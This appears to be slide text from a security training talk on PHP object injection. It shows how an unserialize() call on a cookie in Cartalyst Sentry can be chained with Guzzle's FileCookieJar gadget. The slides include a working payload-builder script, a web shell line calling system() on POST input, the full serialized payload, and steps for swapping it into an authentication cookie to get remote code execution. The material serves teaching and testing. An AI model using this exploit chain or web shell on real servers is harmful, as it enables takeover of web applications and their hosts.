

Exploit Building Process - Overview
1. Find vulnerable application
2. Find POP gadgets in used libraries
3. Create composer.json file with POP gadget library on a VM
4. On VM, install library via Composer
5. Build working payload object on VM, serialize it
6. Unserialize payload on VM to test
7. Supply serialized payload object to vulnerable web application
Example – Step 1: Find vulnerable application
/src/Cartalyst/Sentry/Cookies/NativeCookie.php
…- public function getCookie()
- {
- …
- return unserialize($_COOKIE[$this->getKey()]);
- …
- }
}
Example - Step 2: Find POP gadgets in used libraries
Next, find useful POP gadgets in libraries used by application.
composer.json a good place to look for libraries in use:
{- "require": {
- "cartalyst/sentry": "2.1.5",
- "illuminate/database": "4.0.*",
- "guzzlehttp/guzzle": "6.0.2",
- "swiftmailer/swiftmailer": "5.4.1"
- }
}
Grep for __destruct:
/guzzle/src/Cookie/FileCookieJar.php- namespace GuzzleHttp\Cookie;
- class FileCookieJar extends CookieJar
- …
- public function __destruct()
- {
- $this->save($this->filename);
- }
- ...
Analyze functions used (save() in this case)- public function save($filename)
- {
- $json = [];
- foreach ($this as $cookie) {
- /** @var SetCookie $cookie */
- if ($cookie->getExpires() && !$cookie->getDiscard()) {
- $json[] = $cookie->toArray();
- }
- }
- if (false === file_put_contents($filename, json_encode($json))) {
- throw new \RuntimeException("Unable to save file {$filename}");
- }
- }
The value of $json - comes from $cookie>toArray(), where $cookie is the object in question.
Need to make sure that $cookie>getExpires() returns True, and $cookie>getDiscard() returns False
$cookie->getExpires()
!$cookie->getDiscard()
$json[] = $cookie->toArray()
These methods all come from the SetCookie class.
namespace GuzzleHttp\Cookie;
class SetCookie- …
- public function toArray(){
-
- }
- …
- public function getExpires(){
- return $this->data['Expires'];
- }
- …
- public function getDiscard(){
- return $this->data['Discard'];
- }
Example - Step 3: Create composer.json
Create composer.json file with POP gadget library on a VM:
VM composer.json contents:
{- "require": {
- "guzzlehttp/guzzle": "6.0.2"
- }
}
Example - Step 4: Install Composer + Libraries
1. Download and install composer:- curl -sS https://getcomposer.org/installer | php
2. Install the dependencies in our composer.json file:- php composer.phar install
Example - Step 4: Install Composer + Libraries
Example - Step 5: Build Payload
<?php
require __DIR__ . '/vendor/autoload.php';
use GuzzleHttp\Cookie\FileCookieJar;
use GuzzleHttp\Cookie\SetCookie;
$obj = new FileCookieJar('/var/www/html/shell.php');
$payload = '<?php echo system($_POST[\'poc\']); ?>';
$obj->setCookie(new SetCookie([- 'Name' => 'foo', 'Value' => 'bar',
- 'Domain' => $payload,
- 'Expires' => time()]));
file_put_contents('./built_payload_poc', serialize($obj));
Run it, and obtain the serialized output.
# php build_payload.php
# cat built_payload_poc
O:31:"GuzzleHttp\Cookie\FileCookieJar":3:{s:41:"GuzzleHttp\Cookie\FileCookieJarfilename";s:23:"/var/www/html/shell.php";s:36:"GuzzleHttp\Cookie\CookieJarcookies";a:1:{i:1;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"GuzzleHttp\Cookie\SetCookiedata";a:9:{s:4:"Name";s:3:"foo";s:5:"Value";s:3:"bar";s:6:"Domain";s:36:"<?php echo system($_POST['poc']);?>";s:4:"Path";s:1:"/";s:7:"MaxAge";N;s:7:"Expires";i:1450225029;s:6:"Secure";b:0;s:7:"Discard";b:0;s:8:"HttpOnly";b:0;}}}s:39:"GuzzleHttp\Cookie\CookieJarstrictMode";N;}
Example - Step 6: Unserialize payload to test
Now that a payload has been generated, it can be tested in the VM.
Create a PHP file that reads the payload from disc, and unserializes it. When this file is executed, the POP gadget chain should fire, and the target file (“/var/www/html/shell.php”) should be written.
test_unserialize.php
<?php
require __DIR__ . '/vendor/autoload.php';
unserialize(file_get_contents("./built_payload_poc"));
LIVE FIRE CYBER EXERCISE
Practical PHP Object Injection
1. Application has a “secure” login form.
2. Authenticate with the application:
3. Application will set an authentication cookie:

4. Observe that the application makes use of this cookie; without it, we’re not authenticated:
5. Observe shell.php doesn’t yet exist:
6. Replace the cookie value’s object with the malicious object, and send request. POP chain will fire upon deserialization:

7. shell.php now exists, and remote code execution achieved:
Exploit Building Process - Tips
Try and confirm the application is calling unserialize() on supplied input
Generate payloads with array() if required:
Take care with payload encoding:e.g. If the final payload needs to survive json_encode()use single quotes,
rather than doubles
Favour more popular libraries, and __wakeup()